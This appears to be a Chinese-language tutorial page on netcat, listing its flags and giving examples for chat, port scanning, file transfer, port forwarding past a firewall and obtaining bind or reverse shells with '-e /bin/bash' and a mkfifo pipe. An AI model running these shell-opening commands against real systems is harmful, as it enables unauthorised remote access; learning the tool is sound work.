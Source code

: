 ```yaml
---
title: netcat
date: 2019-01-17 15:19:13
tags:
---
```


netcat简称nc, 能通过tcp和udp在网络中读取数据。在两台电脑间建立连接，监听并返回两个数据流。

#### 1.常用参数：
```
	-4/6 使用IPv4/6地址
	-b 允许broadcast广播
	-c  发送CRLF（回车换行 Carriage-Return Line-Feed）当line-ending
	-d 不尝试读取stdin
	-I length 设置TCP接收的buffer的大小
	-i interval 设置发送和接收间的延迟秒数，
	-l 监听模式
	-n 直接使用ip,不通过域名服务器DNS查询域名
	-o length  设置TCP发送的buffer大小
	-P 代理名字
	-p nc使用的端口
	-v verbose更多输出信息
	-w timeout
	-u 使用UDP
	-r 随机选择端口
	-s source  设置本地主机送出数据包的IP地址
```
#### 2.使用例子
#####	1.建立连接，聊天
		nc -l port 在本地主机监听一个端口<br>
		nc ip port 在其它主机与之建立连接（默认TCP），发送消息
#####	2.端口扫描
		原理，进行tcp三次握手建立连接，如果成功则说明端口开放，容易被防火墙，IDS检测到<br>
		nc -v -n -z ip port(可以是范围)<br>
			-v进行详细输出<br>
			-n不进行域名查询<br>
			-z建立连接后关闭连接，不进行数据交换<br>
#####	3.数据传输(甚至可以传输流媒体）
		类似于聊天，只是将输入换成文件，使用重定向或者管道符<br>
		server:  nc -l port < file1.txt<br>
		clien: nc -n ip port > file2txt<br>
		file1往file2传数据<br>
#####	4.获取shell，正反向shell
		如果有-e参数，直接 nc ip port -e /bin/bash<br>
		无-e参数时:<br>
		server:<br>
		mkfifo /tmp/fifo<br>
		cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l port > /tmp/fifo<br>
		client:<br>
		nc ip port<br>
		原理：<br>
		bash -i 进入交互模式<br>
		通过mkfifo 建立一个管道（命令管道）文件，将管道文件的内容通过匿名管道传给/bin/bash执行，然后再将nc监听到的输入写入fifo,形成一个循环

#####	5.端口转发
		- 背景：192.168.1.103的msfadmin用户需要访问192.168.1.102的8000端口，但是该端口被防火墙保护着，不允许外界机器访问。目前msfadmin用户只能访问192.168.1.102的9000端口。需要9000端口做转发。
		- 目标：msfadmin通过访问192.168.1.102的9000端口，达到与8000端口通话的目的。
		原理：<br>
		在102上：nc -l 8000<br>
					  cat /tmp/fifo | nc localhost 8000 | nc -l 9000 > /tmp/fifo
		在103上：<br>
				nc 192.168.1.102 9000<br>
		在102主机上，开启要转发的8000端口，然后用9000端口通过接收数据，然后连接本地8000端口，将命令管道的数据通过匿名管道传给8000端口
